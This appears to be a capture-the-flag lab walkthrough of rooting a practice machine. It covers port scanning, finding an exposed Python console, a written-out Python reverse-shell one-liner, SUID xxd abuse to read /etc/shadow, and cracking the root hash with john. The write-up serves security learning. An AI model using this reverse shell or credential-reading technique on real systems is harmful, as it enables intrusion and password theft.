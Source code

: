 


First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

`nmap -p- -A 172.31.1.3`

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a6280dee-4403-4f9d-8697-bb3b0628ed4b/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a6280dee-4403-4f9d-8697-bb3b0628ed4b/Untitled.png)

Looks like we only have 2 ports open, lets check out the web site on port 80

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a1e563f2-c369-4f6e-b7d0-aa078b8a6c99/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a1e563f2-c369-4f6e-b7d0-aa078b8a6c99/Untitled.png)

Seems like we have just a basic web site here, lets enumerate for directories with **dirsearch**

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/76d4f29b-60fe-4f74-9674-35d19f6a0f60/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/76d4f29b-60fe-4f74-9674-35d19f6a0f60/Untitled.png)

A couple of these such as /contact and /blog can be seen from the main page, however /console looks interesting.  Lets go there and see what we got.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9ca49121-7e6a-4119-8b74-56a78a77c326/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9ca49121-7e6a-4119-8b74-56a78a77c326/Untitled.png)

Looks like we have an interactive console on the website that we can execute python code on.  I tried a simple **print("hello world")** which worked successfully.  I then executed the following to test and see if we was executing code straight from the server and make sure this wasn't some kind of rabbit hole.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/dc8e8c15-63b0-4844-8712-fa52b35a568b/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/dc8e8c15-63b0-4844-8712-fa52b35a568b/Untitled.png)

This looks good.  Since we are executing python code from the server, we can execute a python reverse shell one liner like the following to get a reverse shell..

`import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`

If we start a netcat listener on out machine and execute this, we get a shell as the user **megan**

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/71100ca5-58e2-42b7-a135-41a0ec2dd6e2/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/71100ca5-58e2-42b7-a135-41a0ec2dd6e2/Untitled.png)

Now lets copy **LinPEAS** to the machine and see what we can find.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/92680c4f-af14-471a-9626-22a4a9f76dc5/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/92680c4f-af14-471a-9626-22a4a9f76dc5/Untitled.png)

We see an interesting SUID binary that we may be able to abuse.  Lets look at **GTFOBins** and see what we can find.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/0a8364bf-be33-4b73-970d-793ae384cc44/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/0a8364bf-be33-4b73-970d-793ae384cc44/Untitled.png)

Looks like we may be able to abuse xxd to read files we don't have permission too.  Lets see if we can read the contents of **/etc/shadow**

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9fe23d06-ee51-48d5-9595-c22a0d26cb2f/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9fe23d06-ee51-48d5-9595-c22a0d26cb2f/Untitled.png)

It worked!  Lets copy the root hash and run it through john to see if we can crack it.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/048552f8-c9da-47f8-912e-ebcff0c5c4a2/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/048552f8-c9da-47f8-912e-ebcff0c5c4a2/Untitled.png)

Looks like we have a password!  Now we can login and have full root access to the machine!

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ad6fc2f3-bfad-4d75-9274-816c6e9b6438/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ad6fc2f3-bfad-4d75-9274-816c6e9b6438/Untitled.png)
